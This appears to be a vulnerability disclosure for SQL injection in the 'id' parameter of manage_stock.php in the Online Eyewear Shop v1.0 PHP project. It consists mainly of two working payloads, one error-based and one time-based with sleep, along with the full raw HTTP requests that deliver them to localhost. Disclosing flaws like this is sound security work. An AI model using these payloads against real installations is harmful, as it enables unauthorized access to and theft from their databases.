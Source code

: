 # Online Eyewear Shop v1.0 has SQL injection

BUG_Author:Gear-D

Website source address:https://www.sourcecodester.com/php/16089/online-eyewear-shop-website-using-php-and-mysql-free-download.html

Vulnerability File: /oews/admin/inventory/manage_stock.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=1' and (select 1 from(select count(*),concat(0x61626364,(select (elt(999=999,1))),0x75767778,floor(rand(0)*2))x from information_schema.plugins group by x)a)-- a

```
GET /oews/admin/inventory/manage_stock.php?id=1%27%20and%20(select%201%20from(select%20count(*),concat(0x61626364,(select%20(elt(999=999,1))),0x75767778,floor(rand(0)*2))x%20from%20information_schema.plugins%20group%20by%20x)a)--%20a HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=k7m8rkajvoev3rcu6g7qup0660
Connection: close
```

Injection success based on errors

![image](https://github.com/Gear-D/bug_report/blob/main/sql1.png)

Payload2:id=1' and (select 1 from (select(sleep(5)))a)-- a

```
GET /oews/admin/inventory/manage_stock.php?id=1%27%20and%20(select%201%20from%20(select(sleep(5)))a)--%20a HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=k7m8rkajvoev3rcu6g7qup0660
Connection: close
```

![image](https://github.com/Gear-D/bug_report/blob/main/sql2.png)
